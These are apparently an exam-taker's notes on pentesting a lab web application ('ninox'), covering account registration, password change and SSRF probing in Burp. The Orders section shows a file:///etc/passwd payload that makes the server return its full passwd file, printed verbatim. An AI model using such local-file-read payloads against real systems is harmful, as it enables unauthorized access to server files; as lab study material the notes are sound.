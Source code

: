 # Starting Web Page
starting web page
![[ss-20250920-OSWA-Exam-ninox-pic1.png]]
learn more page has two people on it
![[ss-20250920-OSWA-Exam-ninox-pic2.png]]
clicking more gives you their information - niomi
![[ss-20250920-OSWA-Exam-ninox-pic3.png]]
![[ss-20250920-OSWA-Exam-ninox-pic4.png]]
# Account Register
able to register an account
![[ss-20250920-OSWA-Exam-ninox-pic5.png]]
account created
![[ss-20250920-OSWA-Exam-ninox-pic6.png]]
what it looks like in `burp`
![[ss-20250920-OSWA-Exam-ninox-pic7.png]]
# Consultation Request
able to request consultation
![[ss-20250920-OSWA-Exam-ninox-pic8.png]]
going to get back to me in 3 days
![[ss-20250920-OSWA-Exam-ninox-pic9.png]]what it looks like in burp 
![[ss-20250920-OSWA-Exam-ninox-pic10.png]]
# Change Password
able to change password
![[ss-20250920-OSWA-Exam-ninox-pic11.png]]
able to change passwords 
- userid3 looks interesting
![[ss-20250920-OSWA-Exam-ninox-pic12.png]]

# SSRF

![[ss-20250920-OSWA-Exam-ninox-pic13.png]]
echoed `itworked.html` to give some content to see if i am able to pull it 
![[ss-20250920-OSWA-Exam-ninox-pic14.png]]
after submitting
![[ss-20250920-OSWA-Exam-ninox-pic15.png]]
what it looks like in burp
![[ss-20250920-OSWA-Exam-ninox-pic16.png]]

# Orders
submit and save
![[ss-20250920-OSWA-Exam-ninox-pic19.png]]
was able to use `file:///etc/passwd` and `submit` the order for review when clicking the `1` in order ID
![[ss-20250920-OSWA-Exam-ninox-pic18.png]]
```bash
Content: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:104::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin pollinate:x:105:1::/var/cache/pollinate:/bin/false sshd:x:106:65534::/run/sshd:/usr/sbin/nologin syslog:x:107:113::/home/syslog:/usr/sbin/nologin uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin student:x:1000:1000:student:/home/student:/bin/bash lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false postgres:x:113:119:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```
what it looks like when u first an order vs when u submit for review
![[ss-20250920-OSWA-Exam-ninox-pic20.png]]
put them both `under review` at `4:15am` - going to come back to see if anything changes, this would confirm some sort of `ssrf` if the admin interacts with it
![[ss-20250920-OSWA-Exam-ninox-pic21.png]]
# Random
able to view `pic01-06.jpg`
![[ss-20250920-OSWA-Exam-ninox-pic17.png]]